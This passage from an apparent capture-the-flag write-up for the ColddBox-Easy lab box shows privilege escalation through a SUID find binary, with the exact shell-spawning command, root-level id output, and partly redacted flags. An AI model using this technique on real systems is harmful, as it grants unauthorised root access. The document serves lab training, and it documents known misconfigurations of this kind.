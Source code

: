 ### PRIV_ESC
***
<br>
This is a way to escalate priviliges. It can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/find/) site
{% highlight bash startinline=true %}
-rwsr-xr-x 1 root root 221768 Feb  8  2016 /usr/bin/find
www-data@ColddBox-Easy:/var/www/html/wp-admin$ which find
/usr/bin/find

{% endhighlight %}

#### Root (Done this Box)
***
{% highlight sh %}
www-data@ColddBox-Easy:/var/www/html/wp-admin$ find . -exec /bin/sh -p \; -quit

# id 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cat /home/c0ldd/user.txt
RmVsaWNpZGFk********************lbCBjb25zZWd1aWRvIQ== <==REDACTED
# cat /root/root.txt
wqFGZWxpY2lkY*******************bmEgY29tcGxldGFkYSE=  <==REDACTED

{% endhighlight %}
***